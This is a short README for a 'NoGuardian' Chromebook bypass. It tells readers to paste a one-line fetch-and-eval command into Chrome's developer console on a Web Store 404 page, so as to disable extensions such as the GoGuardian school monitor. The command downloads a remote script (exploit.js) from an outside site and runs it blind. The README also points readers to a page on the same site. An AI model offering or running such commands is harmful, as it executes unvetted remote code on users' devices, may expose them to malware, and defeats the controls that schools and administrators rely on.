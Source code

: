 # noguardian
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)

# NoGuardian ChomeBook Bypass

Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

UPDATE: JUST GO HERE: https://tylerhalltech.com/noguardian.php

## 1) PREPARE EXPLOIT
Copy the code here:

## Code
```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
## 2) LOAD 404 PAGE

Go to `https://chrome.google.com/webstore_`

Press Ctrl + Shift + I on the 404 page to open Chrome's Developer Tools.

Go to the CONSOLE tab

Paste the code from step 1 here and press enter

You should now be able to disable any Google Chrome extension (including GoGuardian)
